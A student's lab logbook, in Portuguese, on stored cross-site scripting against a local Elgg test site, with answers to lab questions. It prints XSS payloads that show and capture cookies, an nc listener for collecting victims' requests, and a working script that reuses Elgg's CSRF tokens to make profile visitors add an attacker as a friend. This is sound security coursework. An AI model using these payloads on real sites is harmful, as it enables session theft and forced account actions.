










# Logbook 7


## Task 1


-Inicialmente usámos o script <script>alert(’XSS’);</script> e colocámos na descrição do perfil do Bobby.




- Seguidamente fizemos log in como Alice e quando acedemos ao perfil do Bobby apareceu o alerta que era suposto.





## Task 2


- Tal como na primeira task usámos um script ,<script>alert(document.cookie);</script>, que colocámos no perfil do Bobby




- Tal como esperado, ao mudarmos para o perfil da Alice e tentar aceder ao do Bobby,um alerta com os cookies do utilizador




## Task 3

- Usámos o script, <script>document.write(’’);</script> , na descrição do perfil do Bobby.





- Seguidamente com o comando ,**nc -lknv 5555**, quando acedemos ao perfil do Bobby com o perfil da Alice conseguimos obter os requests feitos pelo utilizador que acede ao perfil do Bobby.





## Task 4

- Fizemos log in como alice e adicionámos o samy, e com o "HTTP Header Live", conseguimos ver como é o request quando se adiciona uma pessoa como amigo.



- Seguidamente tivemos de atualizar o script que nos deram nos guião, com a informação que retiramos do "HTTP Header Live" sobre o request

```
<script type="text/javascript">
window.onload = function () {
var Ajax=null;
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts; ➀
var token="&__elgg_token="+elgg.security.token.__elgg_token; ➁
//Construct the HTTP request to add Samy as a friend.
var sendurl="http://www.seed-server.com/action/friends/add?friend=59" + ts + token + ts + token;
//Create and send Ajax request to add friend
Ajax=new XMLHttpRequest();
Ajax.open("GET", sendurl, true);
Ajax.send();
}
</script>
```



- Seguidamente entrámos como boby, e se fossemos aos amigos do boby estavam assim:



- Depois de visitar o perfil do samy, o samy passa a estar nos amigos do boby




- Question 1: Explain the purpose of Lines ➀ and ➁, why are they are needed?

As duas linhas são importantissimas para recriar o url do request associado à operação de adicionar uma pessoa como amiga, e se não existissem não conseguiamos ter o secret token nem o timestamp associado, o que faria com que o ataque não tivesse sucesso.

- Question 2: If the Elgg application only provide the Editor mode for the "About Me" field, i.e.,
you cannot switch to the Text mode, can you still launch a successful attack?

Não porque o Editor mode coloca código extra, para além do código que nós colocamos no About me, e também codifica carateres especiais, o que não deixaria o nosso código rodar e o ataque não iria funcionar.


## Questão 2

O ataque realizado no passo 4 é claramente um ataque **XSS Stored**, porque colocamos o script na parte "About me" do perfil do utilizaor, e este fica armazenado na base de dados do servidor associado, e depois é executado nos browsers dos outros utilizadores que visitam o perfil do Script e adicionam, neste caso o Samy, como amigo apenas por simplesmente visitar o perfil.
